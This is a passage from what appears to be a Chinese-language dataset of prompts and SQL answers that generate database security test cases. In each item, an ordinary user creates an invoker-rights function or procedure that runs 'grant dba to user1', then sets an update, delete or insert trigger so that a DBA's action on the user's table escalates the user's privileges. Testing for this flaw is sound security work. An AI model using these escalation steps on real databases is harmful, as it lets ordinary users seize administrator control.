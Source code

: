 END;
--创建触发器，调用函数
CREATE OR REPLACE TRIGGER update_get_dba
AFTER UPDATE ON user1.t2
FOR EACH ROW
BEGIN
 --调用函数
 call grant_dba_to_user1();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE user1.T2 SET name = 'sysdba' WHERE id = 1;

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权DBA，创建删除型触发器，执行该函数。使用DBA用户删除user1用户的表，触发触发器调用函数进行提权,"--user1用户
--创建表
CREATE TABLE T3(ID int, name varchar(20));
--插入数据
INSERT INTO T3 VALUES(1, 'user1');
--创建提权函数
CREATE OR REPLACE FUNCTION grant_dba_to_user1
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
    RETURN 'Granted';
END;
--创建触发器，调用函数
CREATE OR REPLACE TRIGGER delete_get_dba
AFTER DELETE ON user1.t3
FOR EACH ROW
BEGIN
 --调用函数
 call grant_dba_to_user1();
END;

--DBA用户
--删除数据，触发触发器进行授权
DELETE FROM user1.t3 WHERE id = 1;

--user1用户
--查看权限
SELECT * FROM user_role_privs;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权DBA，创建插入型触发器，执行该存储过程，使用DBA用户插入user1用户的表中，触发触发器调用存储过程进行提权,"--user1用户
--创建表
CREATE TABLE T4(ID VARCHAR(50));
--插入数据
INSERT INTO T4 VALUES('user1');
--创建提权存储过程
CREATE OR REPLACE PROCEDURE grant_dba_to_user1
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'grant dba to user1';
    COMMIT;
END;